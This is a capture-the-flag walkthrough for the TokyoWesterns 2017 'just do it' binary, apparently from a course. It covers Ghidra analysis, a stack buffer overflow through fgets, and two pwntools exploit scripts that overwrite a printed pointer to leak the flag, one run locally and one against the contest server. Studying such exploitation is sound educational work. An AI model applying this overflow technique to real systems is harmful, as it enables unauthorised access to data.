









# Just Do It!

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one. This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:



So we can see that it is a 32 bit binary, with a non executable stack.. When we run it, we can see it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:



So we can see that the file it is trying to open is `flag.txt`. When we create the file `flag.txt`, we see that we can actually run the binary:



We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:



So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`. So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check with this script:



Which we can run like this:




So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:



So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `printedPtr` which is a char ptr that is printed with a puts call, right before the function returns. So we can print whatever we want, as long as we have the address for it. That makes this code look really helpful:



So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.



So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `printedPtr` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`. Here is the exploit to do just that:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = process('just_do_it')
#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

So we were able to read the contents of `flag.txt` with our exploit. In the actual ctf, we would change this to run against the remote server, which would look like this (but that's beyond the scop of this couse, we're only worried about running challenges locally):

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
#target = process('just_do_it')
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:


Just like that, we captured the flag!
